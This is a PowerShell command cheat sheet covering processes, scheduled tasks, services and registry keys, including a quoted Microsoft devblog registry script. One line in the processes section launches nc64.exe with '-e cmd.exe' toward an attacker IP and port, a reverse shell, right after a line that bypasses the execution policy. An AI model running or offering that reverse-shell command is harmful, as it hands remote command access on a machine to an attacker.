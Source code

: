 ## Processes tasks and scheduled tasks
```powershell
Get-Process
Get-Process -ID $PID -IncludeUserName # Owner of proccess
Get-Process -ID $PID | Format-Table * # All data on a PID
# Get parent process
Get-CimInstance -className win32_process | where-object {$_.ProcessId -eq processId_goes_here } | select ParentProcessId, Name 

# Scheduled Tasks
schtasks
schtasks /query /fo /LIST /v
Get-ScheduledTask [-Taskname] [-TaskPath]

##  Sofware ##
# Change executionpolicy
Get-ExecutionPolicy
Set-ExecutionPolicy bypass -scope process

Start-Process -NoNewWindow "c:\path\to\shell\nc64.exe" "-e cmd.exe $attacker-ip $port"
```

## Services
```powershell
# Display all the Automatic StartType Services
Get-Service | Select-Object -Property ServiceName,DisplayName,ServiceType,StartType,Status | Sort-Object -Property Status -Descending | Where-Object {$_.StartType -EQ "Automatic" -And $_.ServiceName -Match "^s"} | Format-Table

# Startup type
Get-Service | select -Property Name, StartType
Get-WmiObject -Query "Select StartMode From Win32_Service Where Name='winmgmt'"
```

## Registery
```powershell
# Get Providers
Get-PSProvider
# Get Provider Drives

# Making a new registery key
cd HKLM:
New-Item myKey
New-ItemProperty -Path .\myKey\ -Name Test -Type DWORD -Value 1
```

[Devblogs](https://devblogs.microsoft.com/powershell-community/how-to-update-or-add-a-registry-key-value-with-powershell/) provides a great script to to test the registry key path first, creating it if needed, then setting the value entry:
```powershell
# Set variables to indicate value and key to set
$RegistryPath = 'HKCU:\Software\CommunityBlog\Scripts'
$Name         = 'Version'
$Value        = '42'
# Create the key if it does not exist
If (-NOT (Test-Path $RegistryPath)) {
  New-Item -Path $RegistryPath -Force | Out-Null
}  
# Now set the value
New-ItemProperty -Path $RegistryPath -Name $Name -Value $Value -PropertyType DWORD -Force 
```
